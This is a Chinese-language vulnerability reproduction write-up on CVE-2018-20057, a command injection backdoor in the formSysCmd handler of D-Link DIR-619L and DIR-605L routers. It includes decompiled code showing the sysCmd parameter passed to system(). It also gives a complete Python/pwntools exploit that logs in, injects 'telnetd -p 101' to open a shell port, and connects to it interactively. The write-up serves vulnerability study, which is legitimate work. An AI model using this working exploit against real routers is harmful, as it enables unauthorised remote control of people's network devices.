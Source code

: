 # （CVE-2018-20057）D-Link DIR-619L&605L 命令注入漏洞

## 一、漏洞简介

D-LINK的DIR-619L Rev.B 2.06B1版本之前和DIR-605L Rev.B 2.12B1版本之前的设备，在/bin/boa文件的formSysCmd函数存在后门，导致攻击者在身份认证后可以通过访问

```
http://[ip]//goform/formSysCmd并指定sysCmd参数，从而实现远程命令注入。
```

固件下载地址：ftp://ftp2.dlink.com/PRODUCTS/DIR-619L/REVB/

本漏洞的路由器运行环境与CVE-2018-20056相同。

## 二、漏洞影响

D-LINK的DIR-619L Rev.B 2.06B1版本之前和DIR-605L Rev.B 2.12B1版本之前的设备。

## 三、复现过程

### 漏洞分析

查看ghidra中的反编译代码，在formSysCmd中，首先获取sysCmd参数，然后通过snprintf写入栈中变量，直接调用system函数执行该参数内容。

```
void formSysCmd(undefined4 uParm1)
{
  undefined4 uVar1;
  char *pcVar2;
  char acStack120 [104];

  uVar1 = websGetVar(uParm1,"submit-url",&DAT_004ac874);
  //获取post参数sysCmd，该参数可由用户控制
  pcVar2 = (char *)websGetVar(uParm1,"sysCmd",&DAT_004ac874);
  if (*pcVar2 != 0) {
    //将sysCmd写入栈中，并调用system执行
    snprintf(acStack120,100,"%s 2>&1 > %s",pcVar2,"/tmp/syscmd.log");
    system(acStack120);
  }
  websRedirect(uParm1,uVar1);
  return;
}
```

### 漏洞复现

该漏洞是在身份认证成功之后才可实现命令注入，需要先登录输入用户名和口令。由于是在qemu中模拟固件，通过apmib_get读取路由器本地配置无法实现，所以在劫持了apmib_get函数之后，login输入的用户名和密码暂时填为空。在真机上操作时，换成真实的用户名和密码即可。

```
import requests
import sys
import struct
import base64
from pwn import *
context(arch='mips',endian='big',log_level='debug')

ip='192.168.84.129'
port=101
def login(user,password):
    postData = {
    'login_name':'',
    'curTime':'1234',
    'FILECODE':'',
    'VER_CODE':'',
    'VERIFICATION_CODE':'',
    'login_n':user,
    'login_pass':base64.b64encode(password),
    }
    response = requests.post('http://'+ip+'/goform/formLogin',data=postData)
    #print response.url
def syscmd(cmd):
    postData = {
    'sysCmd':cmd,
    'submit-url':'1234',
    }
    response = requests.post('http://'+ip+'/goform/formSysCmd',data=postData)
    #print response.url
def inter():
    p=remote(ip,port)
    p.interactive()
if __name__ == "__main__":
    login('','')#这里要写实际的用户名和密码，例如admin 12345
    syscmd('telnetd -p '+str(port))
    inter()
```

另由于qemu模拟时，/dev下没有pty设备，导致telnet连接不能实现，但是端口是已经打开了：

![image](/Users/aresx/Documents/VulWiki/IOT%E5%AE%89%E5%85%A8/D-Link/.resource/%EF%BC%88CVE-2018-20057%EF%BC%89D-Link%20DIR-619L&605L%20%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/media/15-20201014111413220.png)

![image](/Users/aresx/Documents/VulWiki/IOT%E5%AE%89%E5%85%A8/D-Link/.resource/%EF%BC%88CVE-2018-20057%EF%BC%89D-Link%20DIR-619L&605L%20%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/media/16-20201014111413219.png)